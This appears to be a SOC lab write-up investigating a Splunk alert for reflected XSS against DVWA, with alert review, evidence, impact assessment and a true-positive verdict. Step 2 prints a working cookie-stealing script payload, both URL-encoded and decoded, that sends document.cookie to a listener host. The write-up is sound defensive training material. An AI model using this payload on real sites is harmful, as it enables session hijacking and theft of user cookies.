



# Investigation: XSS Reflected Attack Detected

**Scenario:** Reflected Cross-Site Scripting (XSS) - SOC Investigation
**Analyst:** `sadeg`
**Alert Name:** XSS Reflected Attack Detected
**App:** Search & Reporting (search)


---

## 1. Objective

Investigate the Splunk alert triggered by the detection rule described in `splunk_alert.md`, confirm it corresponds to the real attack performed in `attacker.md`, and document findings for the incident record.

---

## 2. Step 1: Review Triggered Alerts

Navigate to **Activity > Triggered Alerts** in Splunk.



Only **1 result** is shown, confirming the alert fired exactly once since it was created (throttle suppressed any duplicate firings within the 2-minute window).

**Action taken:** Click **View Results** to inspect the underlying search results that caused the alert to trigger.

---

### Statistics view (4 results)




> **Observation:** The login/logout requests are normal application traffic and only appear in the result set because the time window (last 15 minutes) overlapped with normal session activity. The two `xss_r` requests are the actual malicious events - note they occurred at **two different times** (20:54:14 and 21:04:31), indicating the attacker attempted the injection more than once (e.g., once to test, once to confirm exploitation - consistent with the steps in `attacker.md`).

---

## 3. Step 2: Decode and Analyze the Malicious URI

The raw URI captured by Splunk is URL-encoded:

```
/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F192.168.30.128%3A8888%2Fsteal%3Fcookie%3D%27%2Bdocument.cookie%3C%2Fscript%3E
```

### Decoded payload

```html
<script>document.location='http://192.168.30.128:8888/steal?cookie='+document.cookie</script>
```

---

## 4. Step 3: Evidences

| Evidence source | Finding |
|---|---|
| Splunk `_time` | Two injection attempts: 20:54:14 and 21:04:31 |
| Splunk `clientip` | `192.168.30.128` - same source IP seen connecting to the attacker's Python listener |


---

## 5. Step 4: Impact Assessment

- **Confidentiality:** Session cookie (`PHPSESSID`) and `security` cookie were exfiltrated to an external/attacker-controlled host.
- **Integrity:** No direct data modification observed in this event; risk is session hijacking if the cookie is replayed.
- **Availability:** No impact.
- **Scope:** Single client IP (`192.168.30.128`), two attempts, both against the same vulnerable endpoint (`xss_r`).

---

## 6. Step 5: Alert Verdict

| Field | Value |
|---|---|
| **Verdict** | True Positive |
| **Attack technique** | T1059.007 - JavaScript execution via Reflected XSS |
| **Root cause** | Missing input sanitization / output encoding on DVWA `xss_r` page (security level: low) |
| **Data exposed** | `PHPSESSID` session cookie, `security` cookie value |
| **Alert performance** | Detected within ~2 minutes of the attack (search ran on a 2-minute cron, matched within the 15-minute lookback) |

